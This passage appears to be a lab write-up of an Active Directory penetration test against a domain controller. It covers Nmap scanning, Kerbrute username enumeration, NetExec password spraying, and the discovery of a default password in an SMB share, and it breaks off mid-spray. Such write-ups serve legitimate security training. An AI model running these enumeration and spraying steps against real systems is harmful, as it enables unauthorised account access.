






Writeup by wook413

[TOC]

# Recon

## Nmap

As per my standard methodology, I initiated the assessment with three Nmap scans: a comprehensive TCP port scan, a targeted service scan on identified ports, and a UDP scan of the top 10 common ports.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -Pn -n --open --min-rate 3000 -p- 
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-02-23 00:15 UTC
Nmap scan report for 192.168.117.40
Host is up (0.049s latency).
Not shown: 65491 closed tcp ports (reset), 11 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
1433/tcp  open  ms-sql-s
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
8530/tcp  open  unknown
8531/tcp  open  unknown
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49670/tcp open  unknown
49675/tcp open  unknown
49684/tcp open  unknown
49685/tcp open  unknown
49694/tcp open  unknown
49703/tcp open  unknown
49704/tcp open  unknown
49715/tcp open  unknown
58538/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 17.34 seconds

```

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sC -sV -p 53,80,88,135,139,389,445,464,593,636,1433,3268,3269,3389,5985,8530,8531,9389,47001,49664-49675,49684,49685,49694,49703,49704,49715,58538
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-02-23 00:17 UTC
Nmap scan report for 192.168.117.40
Host is up (0.053s latency).

PORT      STATE  SERVICE       VERSION
53/tcp    open   domain        Simple DNS Plus
80/tcp    open   http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open   kerberos-sec  Microsoft Windows Kerberos (server time: 2026-02-23 00:17:30Z)
135/tcp   open   msrpc         Microsoft Windows RPC
139/tcp   open   netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open   ldap          Microsoft Windows Active Directory LDAP (Domain: hokkaido-aerospace.com0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.hokkaido-aerospace.com
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc.hokkaido-aerospace.com
| Not valid before: 2023-12-07T13:54:18
|_Not valid after:  2024-12-06T13:54:18
|_ssl-date: 2026-02-23T00:18:34+00:00; 0s from scanner time.
445/tcp   open   microsoft-ds?
464/tcp   open   kpasswd5?
593/tcp   open   ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open   ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: hokkaido-aerospace.com0., Site: Default-First-Site-Name)
|_ssl-date: 2026-02-23T00:18:34+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=dc.hokkaido-aerospace.com
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc.hokkaido-aerospace.com
| Not valid before: 2023-12-07T13:54:18
|_Not valid after:  2024-12-06T13:54:18
1433/tcp  open   ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-08-03T12:32:14
|_Not valid after:  2054-08-03T12:32:14
|_ssl-date: 2026-02-23T00:18:34+00:00; 0s from scanner time.
| ms-sql-ntlm-info: 
|   192.168.117.40:1433: 
|     Target_Name: HAERO
|     NetBIOS_Domain_Name: HAERO
|     NetBIOS_Computer_Name: DC
|     DNS_Domain_Name: hokkaido-aerospace.com
|     DNS_Computer_Name: dc.hokkaido-aerospace.com
|     DNS_Tree_Name: hokkaido-aerospace.com
|_    Product_Version: 10.0.20348
| ms-sql-info: 
|   192.168.117.40:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
3268/tcp  open   ldap          Microsoft Windows Active Directory LDAP (Domain: hokkaido-aerospace.com0., Site: Default-First-Site-Name)
|_ssl-date: 2026-02-23T00:18:34+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=dc.hokkaido-aerospace.com
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc.hokkaido-aerospace.com
| Not valid before: 2023-12-07T13:54:18
|_Not valid after:  2024-12-06T13:54:18
3269/tcp  open   ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: hokkaido-aerospace.com0., Site: Default-First-Site-Name)
|_ssl-date: 2026-02-23T00:18:34+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=dc.hokkaido-aerospace.com
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc.hokkaido-aerospace.com
| Not valid before: 2023-12-07T13:54:18
|_Not valid after:  2024-12-06T13:54:18
3389/tcp  open   ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2026-02-23T00:18:34+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=dc.hokkaido-aerospace.com
| Not valid before: 2026-02-22T00:14:37
|_Not valid after:  2026-08-24T00:14:37
| rdp-ntlm-info: 
|   Target_Name: HAERO
|   NetBIOS_Domain_Name: HAERO
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: hokkaido-aerospace.com
|   DNS_Computer_Name: dc.hokkaido-aerospace.com
|   DNS_Tree_Name: hokkaido-aerospace.com
|   Product_Version: 10.0.20348
|_  System_Time: 2026-02-23T00:18:25+00:00
5985/tcp  open   http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8530/tcp  open   http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: 403 - Forbidden: Access is denied.
8531/tcp  open   unknown
9389/tcp  open   mc-nmf        .NET Message Framing
47001/tcp open   http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open   msrpc         Microsoft Windows RPC
49665/tcp open   msrpc         Microsoft Windows RPC
49666/tcp open   msrpc         Microsoft Windows RPC
49667/tcp open   msrpc         Microsoft Windows RPC
49668/tcp open   msrpc         Microsoft Windows RPC
49669/tcp closed unknown
49670/tcp open   msrpc         Microsoft Windows RPC
49671/tcp closed unknown
49672/tcp closed unknown
49673/tcp closed unknown
49674/tcp closed unknown
49675/tcp open   msrpc         Microsoft Windows RPC
49684/tcp open   ncacn_http    Microsoft Windows RPC over HTTP 1.0
49685/tcp open   msrpc         Microsoft Windows RPC
49694/tcp open   msrpc         Microsoft Windows RPC
49703/tcp open   msrpc         Microsoft Windows RPC
49704/tcp open   msrpc         Microsoft Windows RPC
49715/tcp open   msrpc         Microsoft Windows RPC
58538/tcp open   ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-info: 
|   192.168.117.40:58538: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 58538
|_ssl-date: 2026-02-23T00:18:34+00:00; 0s from scanner time.
| ms-sql-ntlm-info: 
|   192.168.117.40:58538: 
|     Target_Name: HAERO
|     NetBIOS_Domain_Name: HAERO
|     NetBIOS_Computer_Name: DC
|     DNS_Domain_Name: hokkaido-aerospace.com
|     DNS_Computer_Name: dc.hokkaido-aerospace.com
|     DNS_Tree_Name: hokkaido-aerospace.com
|_    Product_Version: 10.0.20348
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-08-03T12:32:14
|_Not valid after:  2054-08-03T12:32:14
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-02-23T00:18:26
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 71.62 seconds
```

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sU --top-ports 10
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-02-23 00:19 UTC
Nmap scan report for 192.168.117.40
Host is up (0.052s latency).

PORT     STATE         SERVICE
53/udp   open          domain
67/udp   closed        dhcps
123/udp  open          ntp
135/udp  closed        msrpc
137/udp  open|filtered netbios-ns
138/udp  open|filtered netbios-dgm
161/udp  closed        snmp
445/udp  closed        microsoft-ds
631/udp  closed        ipp
1434/udp closed        ms-sql-m

Nmap done: 1 IP address (1 host up) scanned in 6.44 seconds
```

# Initial Access

## Brute-forcing usernames

Initial attempts at **SMB** and **RPC Null Authentication**, **LDAP anonymous bind**, as well as **HTTP directory brute-forcing**, yielded no significant leads. Lacking valid usernames, I performed user enumeration via `Kerbrute` , which successfully identified several accounts: **info**, **administrator**, **discovery**, and **maintenance**.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ /opt/kerbrute_linux_amd64 userenum --dc $IP --domain hokkaido-aerospace.com /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \\/ ___/ __ \\/ ___/ / / / __/ _ \\
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\\___/_/  /_.___/_/   \\__,_/\\__/\\___/                                        

Version: v1.0.3 (9dad6e1) - 02/23/26 - Ronnie Flathers @ropnop

2026/02/23 00:45:14 >  Using KDC(s):
2026/02/23 00:45:14 >   192.168.117.40:88

2026/02/23 00:45:14 >  [+] VALID USERNAME:       info@hokkaido-aerospace.com
2026/02/23 00:45:23 >  [+] VALID USERNAME:       administrator@hokkaido-aerospace.com
2026/02/23 00:45:30 >  [+] VALID USERNAME:       INFO@hokkaido-aerospace.com
2026/02/23 00:45:55 >  [+] VALID USERNAME:       Info@hokkaido-aerospace.com
2026/02/23 00:46:24 >  [+] VALID USERNAME:       discovery@hokkaido-aerospace.com
2026/02/23 00:46:26 >  [+] VALID USERNAME:       Administrator@hokkaido-aerospace.com
2026/02/23 00:58:03 >  [+] VALID USERNAME:       maintenance@hokkaido-aerospace.com
```

I compiled these identified usernames into a `user.txt` file.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ cat users.txt            
info
administrator
discovery
maintenance
```

I then conducted a password spraying attack using the `users.txt` list. `NetExec` confirmed that `info:info` are valid credentials.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nxc smb $IP -u users.txt -p users.txt --continue-on-success
SMB         192.168.117.40  445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:hokkaido-aerospace.com) (signing:True) (SMBv1:False)
SMB         192.168.117.40  445    DC               [+] hokkaido-aerospace.com\\info:info
SMB         192.168.117.40  445    DC               [-] hokkaido-aerospace.com\\administrator:info STATUS_LOGON_FAILURE 
SMB         192.168.117.40  445    DC               [-] hokkaido-aerospace.com\\discovery:info STATUS_LOGON_FAILURE 
SMB         192.168.117.40  445    DC               [-] hokkaido-aerospace.com\\maintenance:info STATUS_LOGON_FAILURE 
SMB         192.168.117.40  445    DC               [-] hokkaido-aerospace.com\\administrator:administrator STATUS_LOGON_FAILURE 
SMB         192.168.117.40  445    DC               [-] hokkaido-aerospace.com\\discovery:administrator STATUS_LOGON_FAILURE 
SMB         192.168.117.40  445    DC               [-] hokkaido-aerospace.com\\maintenance:administrator STATUS_LOGON_FAILURE 
SMB         192.168.117.40  445    DC               [-] hokkaido-aerospace.com\\administrator:discovery STATUS_LOGON_FAILURE 
SMB         192.168.117.40  445    DC               [-] hokkaido-aerospace.com\\discovery:discovery STATUS_LOGON_FAILURE 
SMB         192.168.117.40  445    DC               [-] hokkaido-aerospace.com\\maintenance:discovery STATUS_LOGON_FAILURE 
SMB         192.168.117.40  445    DC               [-] hokkaido-aerospace.com\\administrator:maintenance STATUS_LOGON_FAILURE 
SMB         192.168.117.40  445    DC               [-] hokkaido-aerospace.com\\discovery:maintenance STATUS_LOGON_FAILURE 
SMB         192.168.117.40  445    DC               [-] hokkaido-aerospace.com\\maintenance:maintenance STATUS_LOGON_FAILURE
```

Using the `info` account’s credentials, I enumerated the domain users utilizing NetExec’s `--users` flag.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nxc smb $IP -u info -p info --users                        
SMB         192.168.117.40  445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:hokkaido-aerospace.com) (signing:True) (SMBv1:False)
SMB         192.168.117.40  445    DC               [+] hokkaido-aerospace.com\\info:info 
SMB         192.168.117.40  445    DC               -Username-                    -Last PW Set-       -BadPW- -Description-               
SMB         192.168.117.40  445    DC               Administrator                 2023-12-06 15:56:28 4       Built-in account for administering the computer/domain
SMB         192.168.117.40  445    DC               Guest                         <never>             0       Built-in account for guest access to the computer/domain
SMB         192.168.117.40  445    DC               krbtgt                        2023-11-25 13:11:55 0       Key Distribution Center Service Account
SMB         192.168.117.40  445    DC               Hazel.Green                   2023-12-06 16:34:46 0        
SMB         192.168.117.40  445    DC               Molly.Smith                   2023-11-25 13:34:13 0        
SMB         192.168.117.40  445    DC               Alexandra.Little              2023-11-25 13:34:13 0        
SMB         192.168.117.40  445    DC               Victor.Kelly                  2023-11-25 13:34:17 0        
SMB         192.168.117.40  445    DC               Catherine.Knight              2023-11-25 13:34:17 0        
SMB         192.168.117.40  445    DC               Angela.Davies                 2023-11-25 13:34:17 0        
SMB         192.168.117.40  445    DC               Molly.Edwards                 2023-11-25 13:34:17 0        
SMB         192.168.117.40  445    DC               Tracy.Wood                    2023-11-25 13:34:17 0        
SMB         192.168.117.40  445    DC               Lynne.Tyler                   2023-11-25 13:34:17 0        
SMB         192.168.117.40  445    DC               Charlene.Wallace              2023-11-25 13:34:17 0        
SMB         192.168.117.40  445    DC               Cheryl.Singh                  2023-11-25 13:34:17 0        
SMB         192.168.117.40  445    DC               Sian.Gordon                   2023-11-25 13:34:17 0        
SMB         192.168.117.40  445    DC               Gordon.Brown                  2023-11-25 13:34:17 0        
SMB         192.168.117.40  445    DC               Irene.Dean                    2023-11-25 13:34:17 0        
SMB         192.168.117.40  445    DC               Anthony.Anderson              2023-11-25 13:34:17 0        
SMB         192.168.117.40  445    DC               Julian.Davies                 2023-11-25 13:34:17 0        
SMB         192.168.117.40  445    DC               Hannah.O'Neill                2023-11-25 13:34:18 0        
SMB         192.168.117.40  445    DC               Rachel.Jones                  2023-11-25 13:34:18 0        
SMB         192.168.117.40  445    DC               Declan.Woodward               2023-11-25 13:34:18 0        
SMB         192.168.117.40  445    DC               Annette.Buckley               2023-11-25 13:34:18 0        
SMB         192.168.117.40  445    DC               Elliott.Jones                 2023-11-25 13:34:18 0        
SMB         192.168.117.40  445    DC               Grace.Lees                    2023-11-25 13:34:18 0        
SMB         192.168.117.40  445    DC               Deborah.Francis               2023-11-25 13:34:18 0        
SMB         192.168.117.40  445    DC               Bruce.Cartwright              2023-11-25 13:34:21 0        
SMB         192.168.117.40  445    DC               Nigel.Brown                   2023-11-25 13:34:21 0        
SMB         192.168.117.40  445    DC               Derek.Wyatt                   2023-11-25 13:34:21 0        
SMB         192.168.117.40  445    DC               discovery                     2023-12-06 15:42:56 3        
SMB         192.168.117.40  445    DC               maintenance                   2023-11-25 13:39:04 4        
SMB         192.168.117.40  445    DC               hrapp-service                 2023-11-25 14:14:40 0        
SMB         192.168.117.40  445    DC               info                          2023-12-06 15:43:50 0        
SMB         192.168.117.40  445    DC               [*] Enumerated 33 local users: HAERO
```

I parsed the output to extract a clean list of usernames, saving them to `users_clean.txt` .

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ cat users.txt                                     
SMB         192.168.117.40  445    DC               Administrator                 2023-12-06 15:56:28 4       Built-in account for administering the computer/domain
SMB         192.168.117.40  445    DC               Guest                         <never>             0       Built-in account for guest access to the computer/domain
SMB         192.168.117.40  445    DC               krbtgt                        2023-11-25 13:11:55 0       Key Distribution Center Service Account
SMB         192.168.117.40  445    DC               Hazel.Green                   2023-12-06 16:34:46 0        
SMB         192.168.117.40  445    DC               Molly.Smith                   2023-11-25 13:34:13 0        
SMB         192.168.117.40  445    DC               Alexandra.Little              2023-11-25 13:34:13 0        
SMB         192.168.117.40  445    DC               Victor.Kelly                  2023-11-25 13:34:17 0        
SMB         192.168.117.40  445    DC               Catherine.Knight              2023-11-25 13:34:17 0        
SMB         192.168.117.40  445    DC               Angela.Davies                 2023-11-25 13:34:17 0        
<SNIP>
```

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ cat users.txt | awk '{print $5}' > users_clean.txt
```

 ```bash
 ┌──(kali㉿kali)-[~/Desktop]
 └─$ cat users_clean.txt | head -n 5
 Administrator
 Guest
 krbtgt
 Hazel.Green
 Molly.Smith
 ```

## SMB 139 445

I mapped the available SMB shares using `smbmap` with the **info** user’s credentials.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ smbmap -H $IP -u info -p info           

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \\    /"  ||   _  "\\ |"  \\    /"  |     /""\\       |   __ "\\
  (:   \\___/  \\   \\  //   |(. |_)  :) \\   \\  //   |    /    \\      (. |__) :)
   \\___  \\    /\\  \\/.    ||:     \\/   /\\   \\/.    |   /' /\\  \\     |:  ____/
    __/  \\   |: \\.        |(|  _  \\  |: \\.        |  //  __'  \\    (|  /
   /" \\   :) |.  \\    /:  ||: |_)  :)|.  \\    /:  | /   /  \\   \\  /|__/ \\
  (_______/  |___|\\__/|___|(_______/ |___|\\__/|___|(___/    \\___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     <https://github.com/ShawnDEvans/smbmap>

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                      
                                                                                                                             
[+] IP: 192.168.117.40:445      Name: 192.168.117.40            Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        homes                                                   READ, WRITE     user homes
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        SYSVOL                                                  READ ONLY       Logon server share 
        UpdateServicesPackages                                  READ ONLY       A network share to be used by client systems for collecting all software packages (usually applications) published on this WSUS system.
        WsusContent                                             READ ONLY       A network share to be used by Local Publishing to place published content on this WSUS system.
        WSUSTemp                                                NO ACCESS       A network share used by Local Publishing from a Remote WSUS Console Instance.
[*] Closed 1 connections
```

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ smbclient //$IP/NETLOGON -U 'info%info'                             
Try "help" to get a list of possible commands.
smb: \\> dir
  .                                   D        0  Sat Nov 25 13:40:08 2023
  ..                                  D        0  Sat Nov 25 13:17:33 2023
  temp                                D        0  Wed Dec  6 15:44:26 2023

                7699711 blocks of size 4096. 1778476 blocks available
```

```bash
smb: \\> cd temp
smb: \\temp\\> dir
  .                                   D        0  Wed Dec  6 15:44:26 2023
  ..                                  D        0  Sat Nov 25 13:40:08 2023
  password_reset.txt                  A       27  Sat Nov 25 13:40:29 2023

                7699711 blocks of size 4096. 1778476 blocks available
smb: \\temp\\> get password_reset.txt
```

Based on the file’s name and its contents, I identified a potential default password for new users: `Start123!` .

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ cat password_reset.txt 
Initial Password: Start123!
```

Having this new password, I performed another password spray. The results indicated that the `discovery` account was still using the default password.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nxc smb $IP -u users_clean.txt -p Start123! --continue-on-success
SMB         192.168.117.40  445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:hokkaido-aerospace.com) (signing:True) (SMBv1:False)
SMB         192.168.117.40  445    DC               [-] hokkaido-aerospace.com\\Administrator:Start123! STATUS_LOGON_FAILURE 
SMB         192.168.117.40  445    DC               [-] hokkaido-aerospace.com\\Guest:Start123! STATUS_LOGON_FAILURE 
SMB         192.168.117.40  445    DC               [-] hokkaido-aerospace.com\\krbtgt:Start123! STATUS_LOGON_FAILURE 
SMB         192.168.117.40  445    DC               [-] hokkaido-aerospace.com\\Hazel.Green:Start123! STATUS_LOGON_FAILURE 
SMB         192.168.117.40  445    DC               [-] hokkaido-aerospace.com\\Molly.Smith:Start123! STATUS_LOGON_FAILURE 
SMB         192.168.117.40  445    DC               [-] hokkaido-aerospace.com\\Alexandra.Little:Start123! STATUS_LOGON_FAILURE 
SMB         192.168.117.40  445    DC               [-] hokkaido-aerospace.com\\Victor.Kelly:Start123! STATUS_LOGON_FAILURE 
SMB         192.168.117.40  445    DC               [-] hokkaido-aerospace.com\\Catherine.Knight:Start123! STATUS_LOGON_FAILURE 
SMB         192.168.117.40  445    DC               [-] hokkaido-aerospace.com\\Angela.Davies:Start123! STATUS_LOGON_FAILURE 
SMB         192.168.117.40  445    DC               [-] hokkaido-aerospace.com\\Molly.Edwards:Start123! STATUS_LOGON_FAILURE 
